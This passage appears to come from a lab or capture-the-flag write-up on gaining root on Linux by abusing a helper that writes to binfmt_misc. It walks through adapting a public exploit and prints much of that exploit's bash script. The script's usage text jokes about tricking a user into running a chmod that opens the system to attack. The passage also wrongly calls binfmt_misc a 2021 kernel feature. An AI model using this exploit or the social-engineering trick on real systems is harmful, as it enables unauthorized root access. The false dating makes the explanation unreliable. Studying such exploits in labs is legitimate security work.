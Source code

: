 ```c
        perror("close");

    return 0;
}
```

`reg_helper.c` reads 512 bytes from `stdin` and writes them to [/proc/sys/fs/binfmt_misc/regster](https://github.com/torvalds/linux/blob/master/Documentation/admin-guide/binfmt-misc.rst). `binfmt_misc` is a 2021 feature in the Linux kernel that allows a user to register a default interpreter based on a particular file type such that whenever a file of that type is run on the command line, the interpreter is automatically invoked on the file name.

According to [HackTricks](https://github.com/carlospolop/hacktricks/blob/master/linux-unix/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation/sensitive-mounts.md#procsysfsbinfmt_misc), this configuration can be abused to elevate privileges by specifying a malicious interpreter that corresponds to the file type of any SUID `root` binary. By executing the binary, the interpreter will be called with elevated privileges.

Use the exploit from [this GitHub repository](https://github.com/toffan/binfmt_misc) to abuse the vulnerability. Comment out its line 52 and update its line 101 to pipe `$binfmt_line` into `/usr/lib/emuemu/reg_helper` instead of writing it to `/proc/sys/fs/binfmt_misc/register`.

```bash
#!/bin/bash

readonly searchsuid="/bin/"
readonly mountpoint="/proc/sys/fs/binfmt_misc"
readonly exe="$0"


warn()
{
    1>&2 echo $@
}

die()
{
    warn $@
    exit -1
}

usage()
{
    cat 1>&2 <<EOF
Usage: $exe
    Gives you a root shell if /proc/sys/fs/binfmt_misc/register is writeable,
    note that it must be enforced by any other mean before your try this, for
    example by typing something like "sudo chmod +6 /*/*/f*/*/*r" while Dave is
    thinking that you are fixing his problem.
EOF
    exit 1
}

function not_writeable()
{
        test ! -w "$mountpoint/register"
}

function pick_suid()
{
        find "$1" -perm -4000 -executable \
            | tail -n 1
}

function read_magic()
```